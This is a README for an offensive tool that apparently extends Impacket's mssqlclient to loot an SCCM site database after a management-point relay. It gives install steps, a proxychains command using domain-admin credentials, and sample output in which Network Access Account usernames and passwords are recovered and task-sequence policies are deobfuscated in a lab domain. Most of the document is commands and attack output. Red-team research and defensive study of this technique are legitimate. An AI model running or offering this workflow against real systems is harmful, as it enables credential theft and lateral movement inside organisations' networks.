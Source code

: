 # mssqlkaren


<p align="center">
<img width="600" height="400" alt="image" src="https://github.com/user-attachments/assets/ea210893-921b-46a6-a9d1-2b542dfb7880" />
</p>




## Updated mssqlclient.py to automate pulling policies after a mp relay to the sccm database shown [here](https://specterops.io/blog/2025/07/15/id-like-to-speak-to-your-manager-stealing-secrets-with-management-point-relays/)

## Installation

Requirements

```
uv
```

Install

```
git clone https://github.com/garrettfoster13/mssqlkaren.git
cd mssqlkaren
uv sync
```

## Usage
After the relay, proxy mssqlkaren.py and switch to the site database. Then just run `speak_to_the_manager` and the policy assignments and policies will be downloded and decoded to the `karen` dir in your cwd. If NAA or TaskSequence policies are found, will auto decrypt

```
proxychains uv run mssqlkaren.py ludus/domainadmin:password@10.6.10.13 -windows-auth
Impacket v0.13.0.dev0+20250820.203717.835623ae - Copyright Fortra, LLC and its affiliated companies 

*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(sccm-sql): Line 1: Changed database context to 'master'.
[*] INFO(sccm-sql): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (ludus\domainadmin  dbo@master)> use cm_123
ENVCHANGE(DATABASE): Old Value: master, New Value: CM_123
INFO(sccm-sql): Line 1: Changed database context to 'CM_123'.
SQL (ludus\domainadmin  dbo@CM_123)> speak_to_the_manager
[*] Querying for x64 unknown computer guid
[*] Querying for Policy Assignments
[*] Querying for policy bodies
[+] Found NAA Policy
[!] Network Access Account Username: 'ludus\sccm_naa'
[!] Network Access Account Password: 'Password123'
[+] Found NAA Policy
[!] Network Access Account Username: 'ludus\sccm_naa'
[!] Network Access Account Password: 'Password123'
[+] Found Task Sequence policy
[!] successfully deobfuscated task sequence
[+] task sequence policy saved to karen/deobfuscated/ts_sequence_63d5e5da02c2f5d4176a72669aee4da4.xml
[+] Found Task Sequence policy
[!] successfully deobfuscated task sequence
[+] task sequence policy saved to karen/deobfuscated/ts_sequence_63d5e5da02c2f5d4176a72669aee4da4.xml
[+] Found Task Sequence policy
```
